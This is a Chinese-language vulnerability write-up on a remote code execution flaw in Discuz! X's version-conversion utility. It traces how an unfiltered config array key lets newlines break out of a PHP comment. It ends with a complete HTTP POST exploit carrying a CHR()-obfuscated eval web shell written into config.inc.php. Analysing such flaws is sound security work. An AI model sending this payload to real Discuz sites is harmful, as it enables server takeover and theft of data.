

Discuz! X 系列全版本，版本转换功能导致Getshell
==============================================

一、漏洞简介
------------

存在问题的代码在`/utility/convert/`目录下，这部分的功能主要是用于Dz系列产品升级/转换。

二、漏洞影响
------------

Discuz! X 全版本

三、复现过程
------------

### 漏洞分析

入口`utility/convert/index.php`

    require './include/common.inc.php';

    $action = getgpc('a');
    $action = empty($action) ? getgpc('action') : $action;
    $source = getgpc('source') ? getgpc('source') : getgpc('s');

取`$_POST['a']`,直接赋值给`$action`，此时`$action = config`;

    } elseif($action == 'config' || CONFIG_EMPTY) {      
        require DISCUZ_ROOT.'./include/do_config.inc.php';  
    } elseif($action == 'setting') {

满足条件，引入`./include/do_config.inc.php`

    @touch($configfile);
     ......
    if(submitcheck()) {
        $newconfig = getgpc('newconfig');
        if(is_array($newconfig)) {
            $checkarray = $setting['config']['ucenter'] ? array('source', 'target', 'ucenter') : array('source', 'target');
            foreach ($checkarray as $key) {
          ......
        }
        save_config_file($configfile, $newconfig, $config_default);

`$newconfig`从`$_POST[newconfig]`获取数据，`save_config_file`函数保将`$newconfig`保存到`$configfile`文件中，即`config.inc.php`文件。跟进该函数。

    function save_config_file($filename, $config, $default) {
        $config = setdefault($config, $default);// 将$config中的空白项用 $default 中对应项的值填充
        $date = gmdate("Y-m-d H:i:s", time() + 3600 * 8);
        $year = date('Y');
        $content = <<<EOT
    <?php

    \$_config = array();

    EOT;
        $content .= getvars(array('_config' => $config));
        $content .= "\r\n// ".str_pad('  THE END  ', 50, '-', STR_PAD_BOTH)." //\r\n\r\n?>";
        file_put_contents($filename, $content);
    }

getvars函数处理，此时的`$config` =
`$newconfig+config.default.php对应项的补充`。看一下getvars函数：

    function getvars($data, $type = 'VAR') {
        $evaluate = '';
        foreach($data as $key => $val) {
            if(!preg_match("/^[a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*$/", $key)) {
                continue;
            }
            if(is_array($val)) {
                $evaluate .= buildarray($val, 0, "\${$key}")."\r\n";
            } else {
                $val = addcslashes($val, '\'\\');
                $evaluate .= $type == 'VAR' ? "\$$key = '$val';\n" : "define('".strtoupper($key)."', '$val');\n";
            }
        }
        return $evaluate;
    }

满足if条件会执行`buildarray`函数，此时`$key=_config`，`$val`=上面的`$config`。最终造成写入的在该函数中（update.php
2206行）：

    foreach ($array as $key => $val) {
            if($level == 0) {
                //str_pad — 使用另一个字符串填充字符串为指定长度
                // 第一个参数是要输出的字符串，指定长度为50，用'-'填充，居中
                $newline = str_pad('  CONFIG '.strtoupper($key).'  ', 50, '-', STR_PAD_BOTH);
                $return .= "\r\n// $newline //\r\n";
            }

本意是使用`$config`数组的key作为每一块配置区域的\"注释标题\"，写入配置文件的\$newline依赖于\$key，而\$key是攻击者可控的。

未对输入数据进行正确的边界处理，导致可以插入换行符，逃离注释的作用范围，从而使输入数据转化为可执行代码。

### 漏洞复现

在产品升级/转换-\>选择产品转换程序 -\>设置服务器信息 这里抓包，

payload：

    POST /dz/utility/convert/index.php HTTP/1.1
    Host: www.0-sec.org:8001
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:74.0) Gecko/20100101 Firefox/74.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 278
    Origin: http://127.0.0.1:8001
    Connection: close
    Referer: http://127.0.0.1:8001/dz/utility/convert/index.php
    Upgrade-Insecure-Requests: 1

    a=config&source=d7.2_x1.5&submit=yes&newconfig[aaa%0a%0deval(CHR(101).CHR(118).CHR(97).CHR(108).CHR(40).CHR(34).CHR(36).CHR(95).CHR(80).CHR(79).CHR(83).CHR(84).CHR(91).CHR(108).CHR(97).CHR(110).CHR(118).CHR(110).CHR(97).CHR(108).CHR(93).CHR(59).CHR(34).CHR(41).CHR(59));//]=aaaa

参考链接
--------

> https://xz.aliyun.com/t/7492\#toc-18
